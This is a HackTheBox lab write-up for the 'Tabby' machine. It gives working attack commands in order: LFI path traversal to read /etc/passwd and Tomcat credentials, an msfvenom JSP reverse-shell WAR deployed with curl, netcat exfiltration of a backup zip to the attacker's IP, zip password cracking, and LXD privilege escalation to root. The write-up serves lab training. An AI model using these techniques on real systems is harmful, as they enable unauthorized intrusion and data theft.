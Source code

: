 ```yaml
---
layout: post
title: "HackTheBox - Tabby"
date: 2022-03-05
categories: [HackTheBox]
tags: [LFI, tomcat, war file, fcrackzip, lxd]
image: ../../assets/img/posts/Tabby.png

---
```


|**Machine**|[Tabby](https://app.hackthebox.com/machines/Tabby)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[egre55](https://app.hackthebox.com/users/1190)|

---

Before getting started, let's first connect to HackTheBox vpn and run the machine.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -p- -A -oN nmap_scan 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878224-da096a04-9998-4e1a-b659-789894e020d9.png)

nmap result tell us that there are 3 ports 22(SSH), 80(http), 8080(http) are open.

Let's get to know about what technologies are running on port 80

```bash
whatweb http://10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878456-731c2023-bdb0-4530-9ad6-77763c8b7d77.png)

here we can see that email gives us a hint that we might resolve **megahosting.htb** domain with the machine's IP by editing **/etc/hosts file**

let's find what technologies are running on this domain,

```bash
whatweb http://megahosting.htb:8080/docs/
```

![image](https://user-images.githubusercontent.com/67465230/156878227-0026ac79-3c20-4555-94e5-ee4f462e16e1.png)

visiting http://10.10.10.194,

![image](https://user-images.githubusercontent.com/67465230/156878235-51073e88-42ca-433b-a70d-e1d5a80b7a85.png)

we land on main webpage.

Let's visit port 8080 on http://10.10.10.194:8080 as well,

![image](https://user-images.githubusercontent.com/67465230/156878241-7a553b4e-3b95-4481-9f98-bf7ea8130fc2.png)

and we can see that Users are defined in **/etc/tomcat9/tomcat-users.xml** file.

after trying everything, I found that http://megahosting.htb/news.php?file=statement has LFI vulnerability.

![image](https://user-images.githubusercontent.com/67465230/156878245-1e1a2584-53d9-4da1-a9fb-0610014b96c9.png)

we can see /etc/passwd by going to http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/67465230/156878249-fca889d9-4274-4cc0-8f5a-e1ff76e2068d.png)

and there's a **Ash** user. 

let's visit http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

![image](https://user-images.githubusercontent.com/67465230/156878251-ccea820a-a83f-4ac4-afbd-677bed15b28a.png)

we got blank page. Let's view the source code,

![image](https://user-images.githubusercontent.com/67465230/156878252-c5baab16-6822-4d3a-932a-2594ab94aeaf.png)

we got credentials of tomcat user.

Let's try to ssh into the system, our ssh login failed  

```bash
ssh 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878265-d4ef5ca9-fce6-4d23-bb41-587f0ccadb50.png)

Now, we'll go to host-manager-webapp on http://megahosting.htb:8080/

![image](https://user-images.githubusercontent.com/67465230/156878259-460bd85d-a2a9-45de-b972-79fa90ec06bd.png)

Ahh! Finally we arrive at manager page,

![image](https://user-images.githubusercontent.com/67465230/156878262-509bdbcf-4874-4f41-b789-7bdcb52c28a9.png)

after loging into manager page, now we'll create a payload using `msfvenom`,

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=1234 -f war > sh.war
```

and upload shell into web directory of website,

```bash
curl -u 'tomcat:' -T sh.war 'http://megahosting.htb:8080/manager/text/deploy?path=/home/shell'
```

![image](https://user-images.githubusercontent.com/67465230/156878276-281ddad8-369d-4eb3-94e5-e41ea9e767d0.png)

now start netcat listener by `nc -nvlp 1234` and trigger the uploaded shell on website

```bash
curl -u 'tomcat:******************' http://megahosting.htb:8080/home/shell/
```

![image](https://user-images.githubusercontent.com/67465230/156878697-2fc83bd9-ee22-43bf-89f0-579bd9df18e5.png)

after we execute it we'll get reverse connection,

![image](https://user-images.githubusercontent.com/67465230/156878284-7c7ca3c7-aba9-429b-87ef-de1285897e2b.png)

and now we'll upgrade shell using 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

![image](https://user-images.githubusercontent.com/67465230/156878288-539e22db-4b72-429c-bd02-e0bea312263d.png)

now we'll download file into our system by typing command in our machine 

```bash
nc -nvlp 5555 > 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878295-8b0f7980-8309-4f32-a563-8019b8140cfe.png)

and other command in that obtained shell,

```bash
nc -w 3 10.10.14.18 5555 < 16162020_backup.zip
``` 

![image](https://user-images.githubusercontent.com/67465230/156878299-67b6af1c-16c5-4957-ac7f-32a44b2a6eef.png)

Now that we have a zip file protected with password, we can try to crack the password with fcrackzip with a provided password list,

```bash
fcrackzip -D -p /home/kali/HTB/tabby/rockyou.txt 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878908-cc19a0ea-a3da-445b-be5e-70c445b8282e.png)

now switching to Ash user in shell and we can capture the user flag 

```bash
su ash
```

![image](https://user-images.githubusercontent.com/67465230/156878942-46aaaa5e-bb8e-43bd-8680-7946a7742055.png)

Now we have to do Privilege Escalation for root flag

now download this file in tabby dir in kali

![image](https://user-images.githubusercontent.com/67465230/156878303-27c4e8ee-1c24-41de-bfe4-ce054adc41d8.png)

after downloading,

![image](https://user-images.githubusercontent.com/67465230/156878313-337ff292-f7cb-42f4-ad5b-b2ffb91e12de.png)

and we'll download this file in the shell by writing this command on the shell side 

```bash
nc -lp 6666 > alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878318-765c3e03-622d-4c18-aff6-05c62447efa5.png)

and this command in our machine

```bash
nc -w 3 10.10.10.194 6666 < alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878323-1203c010-9f85-4484-8b4c-7b7eb3599c3c.png)

and now run this series of command

```bash
lxc  image import alpine-v3.12-x86_64-20201023_0344.tar.gz --alias ctfimage
lxc image list
lxc ctfimage tabbyimage -c security.privileged=true
lxc init ctfimage tabbyimage -c security.privileged=true
lxc config device add tabbyimage mydevice disk source=/ path=/mnt/root recursive=true
lxc start tabbyimage
lxc exec tabbyimage /bin/sh
```

![image](https://user-images.githubusercontent.com/67465230/156878328-6eb35b16-7585-4478-9a56-07859bb33408.png)

we got the root access to the system. We can now grab this root flag. (: